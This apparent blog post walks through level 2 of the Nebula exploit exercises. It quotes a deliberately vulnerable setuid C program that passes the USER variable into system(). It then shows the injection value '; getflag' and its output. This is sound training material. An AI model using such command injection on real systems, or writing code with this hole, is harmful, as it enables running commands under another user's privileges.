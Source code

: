 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 2"
date:   2016-07-30 12:32:00 +0200
categories: security exercises
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
~~~

* * *

This level follows the same patterns as the previous one, although one could argue this one is more obvious.

The environment variable `USER` is passed as an argument to `/bin/echo`. Note that there's no way for us to change which `echo` binary is called this time since the absolute path is used!

Anyway, the exploit is done by setting the user variable to something like this:

~~~ bash
level02@nebula:~$ export USER="; getflag"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo ; getflag is cool")

You have successfully executed getflag on a target account
~~~

We terminate the first `echo` command with a semicolon, then we call the `getflag` command, which will get executed by the `flag02` user.

